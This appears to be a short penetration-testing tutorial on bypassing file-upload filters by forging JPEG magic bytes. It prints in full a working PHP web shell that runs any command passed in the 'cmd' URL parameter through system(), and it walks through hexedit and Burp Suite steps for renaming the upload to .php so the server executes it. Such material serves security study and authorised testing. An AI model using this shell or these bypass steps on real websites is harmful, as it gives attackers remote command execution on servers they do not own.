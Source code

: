 ## **Overview**

Magic Bytes are Basically strings that indicates a file type. You can check out a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).



## **Exploitation**


- create a file with `.php.jpg` as the extension 
- Input the following code into the file and save it

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Since in this case we are uploading a `JPG` or `PNG` file, Files like this usually have one of the following magic numbers: `FFD8 DDE0`, `FFD8 FFDB` or `FFD8 FFE1`
- We can then change the first bytes and the last bytes using **hexedit** - `hexedit shell.php`
	- First bytes will be: `FFD8 FFDB`
	- Last bytes will be: `FFD9` (Always have to be)
	- Ctrl+S - To save

![](https://i.imgur.com/KsVAtWP.png)

- Open up burp suite and try to upload this file then intercept request
- Forward request to **Repeater** and rename to **anything.php** then click **Send**

 ![](https://i.imgur.com/J8fdr1b.png)

- Checking back on the website our file should have been uploaded

![](https://i.imgur.com/2Wx4lFa.png)


![](https://i.imgur.com/j1wMNmy.png)


### **Reference**

- [https://danielxblack.ghost.io/bypassing-file-upload-restrictions-with-a-magic-byte-and-hex-editor/](https://danielxblack.ghost.io/bypassing-file-upload-restrictions-with-a-magic-byte-and-hex-editor/)

